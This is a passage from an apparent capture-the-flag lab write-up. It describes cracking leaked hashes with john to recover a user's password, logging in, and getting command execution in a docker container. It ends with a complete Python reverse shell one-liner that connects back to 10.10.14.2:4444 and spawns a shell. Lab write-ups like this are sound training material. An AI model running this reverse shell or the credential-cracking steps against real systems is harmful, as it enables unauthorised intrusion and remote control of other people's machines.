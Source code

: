 &#x20;I was able to get out the remaining hashes, which were for **root and gary.** We can crack these using john. Only one of them was crackable, and it was gary's.

<figure><img src="../../../.gitbook/assets/image (101) (2).png" alt=""><figcaption></figcaption></figure>

So his password is rubberducky. With these credentials, we can log in to the website as gary.

### Container Creation

Within the login, we are able to simply register and start a new docker container.

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

Within each docker container, we can basically get RCE on it. This can be done using the execute command button. I found that using the one without the background creates a very unstable shell, so use the other one.

<figure><img src="../../../.gitbook/assets/image (119) (1).png" alt=""><figcaption></figcaption></figure>

We can use this reverse shell command:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

